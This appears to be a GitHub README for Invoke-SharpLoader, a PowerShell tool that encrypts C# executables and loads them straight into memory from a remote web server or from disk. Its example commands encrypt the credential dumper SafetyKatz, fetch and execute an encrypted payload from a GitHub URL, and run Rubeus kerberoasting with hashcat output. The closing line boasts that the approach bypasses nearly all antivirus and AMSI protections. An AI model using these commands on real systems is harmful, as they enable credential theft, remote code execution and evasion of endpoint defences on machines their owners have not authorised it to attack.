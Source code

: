 # Invoke-SharpLoader
Load encrypted and compressed C# Code from a remote Webserver or from a local file straight to memory and execute it there.

Two scripts are used here. Invoke-SharpEncrypt can be used to encrypt existing C# files. To do this, the following example command can be used.

Encrypt C# file:
======
`Invoke-SharpEncrypt -file C:\CSharpFiles\SafetyKatz.exe -password S3cur3Th1sSh1t -outfile C:\CSharpEncrypted\SafetyKatz.enc`

Only full paths to the file are accepted at this point. The encrypted files generated by Invoke-SharpEncrypt can then be hosted on a web server on the Internet or stored on the target system on disk.
Invoke-SharpLoader can be used to decrypt and execute the files in memory. Two examples demonstrate how to load a file from a remote webserver or from disk.

Load from URL:
======
`Invoke-SharpLoader -location https://raw.githubusercontent.com/S3cur3Th1sSh1t/Invoke-SharpLoader/master/EncryptedCSharp/SafetyKatz.enc -password S3cur3Th1sSh1t -noArgs`

Load from DISK:
======
`Invoke-SharpLoader -location C:\EncryptedCSharp\Rubeus.enc -password S3cur3Th1sSh1t -argument kerberoast -argument2 "/format:hashcat"`

This project was heavily inspired by Cn33liz p0wnedLoader repo here https://github.com/Cn33liz/p0wnedLoader. By encrypting own executables with a 
custom password and hosting them somewhere on the internet nearly all local and Proxy AV-Protections and AMSI can be bypassed. :-)
